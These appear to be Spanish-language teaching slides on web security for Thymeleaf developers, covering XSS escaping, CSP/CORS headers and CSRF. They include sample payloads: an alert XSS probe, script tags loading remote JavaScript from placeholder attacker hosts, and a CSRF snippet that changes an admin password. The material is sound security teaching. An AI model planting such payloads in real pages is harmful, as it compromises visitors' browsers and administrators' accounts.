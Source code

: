 ~~~{.html}
<h1>Bienvenido, <span><script>alert(1)</script></span></h1>
~~~

---

~~~{.html}
<h1>Bienvenido, <span>
<script src="http://malo.com/maldades.js"></script>
</span></h1>
~~~

## Evitando inyección HTML/JS

* Valida, valida y valida. Y luego, escapa.

* Escapado: depende del contexto
    + dentro de un elemento HTML: **thymeleaf os ayuda**; usa `text`
    + dentro de un atributo de HTML: **thymeleaf os ayuda**: lo escapa automáticamente. 
    + dentro de JS: configura bien tu serialización (la veremos el próximo día).

## Incluyendo JS dinámico en tu HTML

~~~{.java}
model.addAttribute("message", "1 + Math.sqrt(2)");
~~~

~~~{.javascript}
// dentro de un <script> en un fichero html
var message =/*[[${message}]]*/ 'defaultanyvalue';
//            |              |
//            \--------------+-- sin ' ' entre comentario y corchetes
~~~

## Evitando inyección de HTML/JS desde terceras páginas

* vale, tu página puede no contener inyecciones. Pero, ¿y las de otros?

* ¿Qué pasa si visitas un foro, y lees el comentario siguiente, y tu navegador ejectua ese JS?

~~~{.html}
¡Qué post tan bueno!<script src="http://servidormaligno.com/script.js"></script>
~~~

* Soluciones:

- Navegadores modernos: 
    + cabecera content-security-policy
    + CORS
    * X-Frame-Options

## Protegiendo posts: CSRF

* Cross-Site Request Forgery

~~~~ {.html}
<div>
    // si eso lo lee el admin, está logeado, y el "endpoint" existe...
    <script>$.post("cambiarPasswd", {u: "admin", p: "muahaha"});</script>
</div>
~~~~
